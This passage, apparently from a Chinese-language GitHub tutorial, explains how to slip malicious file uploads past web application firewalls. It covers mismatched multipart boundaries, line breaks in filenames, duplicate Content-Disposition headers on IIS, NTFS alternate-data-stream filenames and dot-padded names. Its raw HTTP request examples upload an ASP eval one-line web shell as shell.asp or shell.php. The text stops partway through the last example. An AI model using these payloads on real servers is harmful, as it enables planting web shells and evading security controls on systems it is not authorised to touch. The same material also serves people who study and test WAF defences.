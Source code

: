 每次文件上传时的Boundary边界都是一致的：

但如果容器在处理的过程中并没有严格要求一致的话可能会导致一个问题，两段Boundary不一致使得waf认为这段数据是无意义的，可是容器并没有那么严谨：

Win2k3 + IIS6.0 + ASP

```php
Content-Type: multipart/form-data; boundary=---------------------------471463142114117302185255dddd //修改
Content-Length: 253
-----------------------------4714631421141173021852555099
Content-Disposition: form-data; name="file1"; filename="shell.asp"
Content-Type: application/octet-stream
<%eval request("a")%>
-----------------------------4714631421141173021852555099--
```

- 文件名回车
```php
Content-Disposition: form-data; name="file1"; filename="shell.ph
p" //php中间回车
```

- 多个Content-Disposition

在IIS的环境下，上传文件时如果存在多个Content-Disposition的话，IIS会取第一个Content-Disposition中的值作为接收参数，而如果waf只是取最后一个的话便会被绕过

Win2k8 + IIS7.0 + PHP

```php
Content-Type: multipart/form-data; boundary=---------------------------4714631421141173021852555099 
Content-Length: 253
-----------------------------4714631421141173021852555099
Content-Disposition: form-data; name="file1"; filename="shell.php"
-----------------------------4714631421141173021852555099
Content-Disposition: form-data; name="file1"; filename="shell.jpg"
Content-Type: application/octet-stream
<%eval request("a")%>
-----------------------------4714631421141173021852555099--
```
- 利用NTFS ADS 特性

ADS是NTFS磁盘格式的一个特性，用于NTFS交换数据流。在上传文件时，如果waf对请求正文的filename匹配不当的话可能会导致绕过。

上传的文件名| 服务器表面现象| 生成的文件内容
--|--|--
Test.php:a.jpg|生成Test.php|空
Test.php::$DATA|生成test.php|\<?php phpinfo();?>
Test.php::$INDEX_ALLOCATION|生成test.php文件夹|
Test.php::$DATA.jpg|生成0.jgp|\<?php phpinfo();?>
Test.php::$DATA\aaa.jpg|生成aaa.jpg|\<?php phpinfo();?>

- 文件重命名绕过

如果web程序会将filename除了扩展名的那段重命名的话，那么还可以构造更多的点、符号等等。
```php
Content-Disposition: form-data; name="file1"; filename="shell...............................
..............................................
..............................................
..............................................
..............................................
..............................................
..............................................
..............................................
..............................................
..............................................
..............................................
..............................................
..............................................
```
